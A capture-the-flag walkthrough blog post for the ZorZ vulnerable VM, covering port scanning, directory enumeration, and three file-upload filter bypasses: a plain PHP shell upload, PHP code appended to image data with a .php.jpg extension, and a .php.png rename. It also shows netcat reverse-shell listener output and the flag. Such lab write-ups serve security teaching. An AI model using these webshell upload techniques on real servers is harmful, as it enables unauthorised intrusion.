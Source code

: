 ```yaml
---
layout: blog_item
title: "Zorz Walkthrough"
date: "2015-07-01"
author: Arr0way
description: 'Zorz - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

Welcome to the ZorZ VM Challenge

This machine will probably test your web app skills once again. There are 3 different pages that should be focused on (you will see!) If you solve one or all three pages, please send me an email and quick write up on how you solved each challenge. Your goal is to successfully upload a webshell or malicious file to the server. If you can execute system commands on this box, thats good enough!!! I hope you have fun!

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.110

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/zorz/dirbuster.png)

## Level 1

The web application has no filter protection, so uploading a PHP shell is possible.

![uploader1](/img/blog/zorz/uploader1.png)

PHP Shell Upload:

![php shell upload](/img/blog/zorz/file-upload.png)

The location <code>/uploads2</code> was previously disclosed by **Dirbuster**, <code>/uploads1</code> was discovered manually (logical guess).

![php shell execution](/img/blog/zorz/uploads1.png)

Reverse shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443                               
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33115
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 16:21:31 up 1 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$

{% endhighlight %}

Level 1 complete.

## Level 2

The initial attempt to upload the previous shell failed with the error message:

![php shell upload fail](/img/blog/zorz/upload2-fail.png)

Several attempts were then made to upload shells with various extensions such as <code>shell.png.php</code> , <code>shell.php.png</code> etc to bypass the web application filtering, all attempts to bypassed the filtering failed.

### Burp Suite - PHP Shell Injection in an Image file

It was apparent the web application had a mechanism for image file validation, several attempts were made to inject the php shell code into the image file. The solution was to inject the code at the end of the image data.

The file extension also needed modifying to <code>.php.jpg</code>, this appeared to force the web server to process the file, likely due to poorly configured Apache MIME types.

![Burp Suite shell injection in an image](/img/blog/zorz/burp-php-shell-injection-in-an-image.png)

Image uploaded successfully.

![Shell Upload](/img/blog/zorz/uploaded-shell.png)

Execution of image from <code>/uploads2</code>

![upload dir](/img/blog/zorz/dir.png)

### Reverse Shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33118
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 17:02:32 up 42 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}

Level 2 complete.

## Level 3

Level 3 was beaten simply by renaming the php reverse shell to <code>php-reverse-shell.php.png</code>, this was enough to bypass the filtering.

![Level 3](/img/blog/zorz/level3.png)

An alternative solution would of been to use burp to upload the file + change the content type.

## Flag

{% highlight bash %}

$ cd l337saucel337
$ ls
SECRETFILE
$ cat SE
cat: SE: No such file or directory
$ cat SECRETFILE
Great job so far. This box has 3 uploaders.

The first 2 are pure php, the last one is php w/jquery.

To get credit for this challenge, please submit a write-up or instructions
on how you compromised the uploader or uploaders. If you solve 1, 2, or all
of the uploader challenges, feel free to shoot me an email and let me know!

Thanks for playing!
http://www.top-hat-sec.com
$

{% endhighlight %}

Level 3 complete.

Thanks for the VM :)
